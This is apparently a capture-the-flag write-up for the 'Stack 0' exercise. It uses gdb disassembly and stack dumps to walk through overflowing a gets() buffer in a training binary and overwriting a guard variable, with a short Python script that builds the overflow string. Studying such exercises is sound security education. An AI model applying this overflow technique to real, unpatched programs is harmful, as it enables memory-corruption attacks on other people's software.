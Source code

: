 # Stack 0
## Tools used
- gdb (gef)
## Recon
We start off with what looks to be a simple Stack Overflow. Booting up gdb, let's see what we're working with
```shell
gef➤  info functions

File stack0/stack0.c:
5:	int main(int, char **);

Non-debugging symbols:
0x080482bc  _init
0x080482fc  __gmon_start__@plt
0x0804830c  gets@plt
0x0804831c  __libc_start_main@plt
0x0804832c  puts@plt
0x08048340  _start
0x08048370  __do_global_dtors_aux
0x080483d0  frame_dummy
0x08048440  __libc_csu_fini
0x08048450  __libc_csu_init
0x080484aa  __i686.get_pc_thunk.bx
0x080484b0  __do_global_ctors_aux
0x080484dc  _fini
```

The item of interest here is the function main. Let's set a breakpoint, run gdb, and then peek at the disassembly

```shell
Dump of assembler code for function main:
   0x080483f4 <+0>:	push   ebp
   0x080483f5 <+1>:	mov    ebp,esp
   0x080483f7 <+3>:	and    esp,0xfffffff0
   0x080483fa <+6>:	sub    esp,0x60
=> 0x080483fd <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048405 <+17>:	lea    eax,[esp+0x1c]
   0x08048409 <+21>:	mov    DWORD PTR [esp],eax
   0x0804840c <+24>:	call   0x804830c <gets@plt>
   0x08048411 <+29>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048415 <+33>:	test   eax,eax
   0x08048417 <+35>:	je     0x8048427 <main+51>
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
   0x08048427 <+51>:	mov    DWORD PTR [esp],0x8048529
   0x0804842e <+58>:	call   0x804832c <puts@plt>
   0x08048433 <+63>:	leave
   0x08048434 <+64>:	ret
End of assembler dump.
```

Here's the rundown:
- stack initialzation, alignment, and allocation
- storing hex 0 in a variable [esp+0x5c]
- storing the effective address of said variable into eax
- moving eax to the stack at [esp+0x1c] for the following:
- gets function call (naughty naughty)
- storing our [esp+0x5c] variable to the eax register
- testing eax against itself (bitwise and), should always set the zero flag since eax = [esp+0x5c] = 0
- if the zero flag is set (always will be), jumps to memory location 0x08048427, pushes a string at memory location 0x8048529 to the stack in anticipation of the puts call
- puts (prints) whatever string is at the address 0x8048529 in the binary's data section


To reiterate, our variable [esp+0x5c] is initialized to 0 and there is nothing in this binary that will organically change [esp+0x5c]'s value. [esp+0x5c] will always set our eax register to zero meaning that when test eax,eax is called, the zero flag will always be set; we will always get sucked into the je <main+51> operation; we will always fail to reach the area in memory between 0x08048419 and 0x08048425
```shell
   0x08048419 <+37>:	mov    DWORD PTR [esp],0x8048500
   0x08048420 <+44>:	call   0x804832c <puts@plt>
   0x08048425 <+49>:	jmp    0x8048433 <main+63>
```
This right here is where we want to be, and that je call at 0x08048417 is gatekeeping us hard.

## Method

Here's what we need to do to avoid that je operation
- can patch out the binary like a coward
- can use the gets function call to overflow the stack, spilling into variable [esp+0x5c] which stops setting eax to 0 and the zero flag won't get set during the test operation

First let's get a better look at the stack:
```shell
gef➤  x/24w $esp
0xffffd180:	0xffffd19c	0xf7fc9694	0xf7ffd608	0x0
0xffffd190:	0xf7ffcff4	0x2c	0x0	0xffffdfcd
0xffffd1a0:	0xf7fc7550	0x0	0xf7da1a4f	0xf7fa2048
0xffffd1b0:	0xf7fc14b0	0xf7fd97cb	0xf7da1a4f	0xf7fc14b0
0xffffd1c0:	0xffffd200	0xf7fc1688	0xf7fc1b40	0x1
0xffffd1d0:	0x1	0x0	0x0	0x0
```
It's a little ugly but here's the first 24 hex dwords (4 bytes each) off our stack pointer (esp). We know that eax is at [esp+0x1c] and our 0 variable is at [esp+0x5c]. The difference between these 2 addresses is 0x40, or 64 in decimal. That means if we pass a string with 64 + 4 characters to the binary, we'll completely fill all 4 bytes of [esp+0x5c] (and everything in between it and eax). We can quickly generate a little script in the command line like:

```shell
python3 -c "print('A'*64)"
```

but if we vary the characters it will make more sense when I print the stack again in a second. 

```python3
str_ = ""
for i in range(17):
    str_ += (chr(ord('A') + i)) * 4
print(str_)
```

which gives us AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQ. Let's plug that into our binary and take a look at what the stack looks like!

```shell
gef➤  x/24w $esp
0xffffd180:	0xffffd19c	0xf7fc9694	0xf7ffd608	0x00000000
0xffffd190:	0xf7ffcff4	0x0000002c	0x00000000	0x41414141
0xffffd1a0:	0x42424242	0x43434343	0x44444444	0x45454545
0xffffd1b0:	0x46464646	0x47474747	0x48484848	0x49494949
0xffffd1c0:	0x4a4a4a4a	0x4b4b4b4b	0x4c4c4c4c	0x4d4d4d4d
0xffffd1d0:	0x4e4e4e4e	0x4f4f4f4f	0x50505050	0x51515151
```

As we can see, each collection of 4 bytes starting from the 0x41414141 (eax location) all the way to 0x51515151 ([esp+0x5c]) are the characters AAAA -> QQQQ.
We've successfuly overflowed the stack! Now our variable [esp+0x5c] (which should always be zero) has a value of 0x51515151 or QQQQ!

```shell
gef➤  x/s $esp+0x5c
0xffffd1dc:	"QQQQ"
```

This means that when test eax,eax is called, the zero flag won't be set, and the jump if equal condition will fail. Our code will continue running and we'll be rewarded with:

```shell
you have changed the 'modified' variable
```
